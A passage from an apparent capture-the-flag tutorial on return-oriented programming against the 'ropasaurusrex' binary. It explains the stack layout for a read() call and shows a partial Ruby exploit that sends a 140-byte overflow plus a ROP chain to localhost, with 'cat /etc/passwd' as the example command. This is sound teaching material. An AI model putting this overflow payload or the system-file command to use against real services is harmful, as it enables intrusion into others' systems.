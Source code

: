 ```

<span class="lnr">1 </span><span class="Type">ssize_t</span> read(<span class="Type">int</span> fd, <span class="Type">void</span> *buf, <span class="Type">size_t</span> count);
```

This means that, when you enter the read() function, you want the stack to look like this:

```

+----------------------+
|        [...]         | - doesn't matter, other funcs will go here
+----------------------+

+----------------------+ <-- start of read()'s stack framed
|     size_t count     | - count, strlen("cat /etc/passwd")
+----------------------+
|      void *buf       | - writable memory, 0x08049530
+----------------------+
|        int fd        | - should be 'stdin' (0)
+----------------------+
|   [return address]   | - where 'read' will return
+----------------------+

+----------------------+
|        [...]         | - doesn't matter, read() will use for locals
+----------------------+

```

We update our exploit to look like this (explanations are in the comments):

```

<span class="lnr"> 1 </span>$ cat sploit.rb
<span class="lnr"> 2 </span><span class="PreProc">require</span> <span class="Special">'</span><span class="Constant">socket</span><span class="Special">'</span>
<span class="lnr"> 3 </span>
<span class="lnr"> 4 </span>s = <span class="Type">TCPSocket</span>.new(<span class="Special">"</span><span class="Constant">localhost</span><span class="Special">"</span>, <span class="Constant">4444</span>)
<span class="lnr"> 5 </span>
<span class="lnr"> 6 </span><span class="Comment"># The command we'll run</span>
<span class="lnr"> 7 </span>cmd = <span class="Identifier">ARGV</span>[<span class="Constant">0</span>] + <span class="Special">"</span><span class="Special">\0</span><span class="Special">"</span>
<span class="lnr"> 8 </span>
<span class="lnr"> 9 </span><span class="Comment"># From objdump -x</span>
<span class="lnr">10 </span>buf = <span class="Constant">0x08049530</span>
<span class="lnr">11 </span>
<span class="lnr">12 </span><span class="Comment"># From objdump -D ./ropasaurusrex | grep read</span>
<span class="lnr">13 </span>read_addr = <span class="Constant">0x0804832C</span>
<span class="lnr">14 </span><span class="Comment"># From objdump -D ./ropasaurusrex | grep write</span>
<span class="lnr">15 </span>write_addr = <span class="Constant">0x0804830C</span>
<span class="lnr">16 </span>
<span class="lnr">17 </span><span class="Comment"># Generate the payload</span>
<span class="lnr">18 </span>payload = <span class="Special">"</span><span class="Constant">A</span><span class="Special">"</span>*<span class="Constant">140</span> +
<span class="lnr">19 </span>  [
<span class="lnr">20 </span>    cmd.length, <span class="Comment"># number of bytes</span>
<span class="lnr">21 </span>    buf,        <span class="Comment"># writable memory</span>
<span class="lnr">22 </span>    <span class="Constant">0</span>,          <span class="Comment"># stdin</span>
<span class="lnr">23 </span>    <span class="Constant">0x43434343</span>, <span class="Comment"># read's return address</span>
```